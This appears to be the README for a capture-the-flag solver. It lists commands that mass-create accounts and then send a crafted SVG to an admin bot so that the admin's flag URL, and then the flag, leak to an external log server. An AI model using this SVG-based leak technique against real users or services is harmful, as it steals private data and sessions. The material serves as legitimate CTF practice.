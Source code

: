 # Solver

1. If [users.json](users.json) is not yet populated run the bellow command. It will create 400 accounts, upload files, share them between accounts and store sessions and csrfs.
(preferably add your own account prefix, each created account will append an integer as suffix, e.g. acc3214_12)
```sh
python3 solution/poc.py --reset --prefix acc3214_
```

2. Then run the below command to leak the admin's flag URL by sending [send_to_admin.svg](./send_to_admin.svg) while specifying the `--log-server` that will retrieve the leaked data

```sh
python3 solution/poc.py --leak-domain --log-server 'https://examplebin.org'
```

3. After retrieving the domain part of the flag, run the bellow command to find a collision domain and then send [send_to_admin.svg](./send_to_admin.svg) to admin once again, but this time to leak the flag.

```sh
python3 solution/poc.py --log-server 'https://examplebin.org' --send --domain doc-12-73561
```
___
*Note that non-used sessions expire after 60 minutes so you might want to run `python3 solution/poc.py --refresh` once in a while, or add `--refresh` when leaking the domain.*

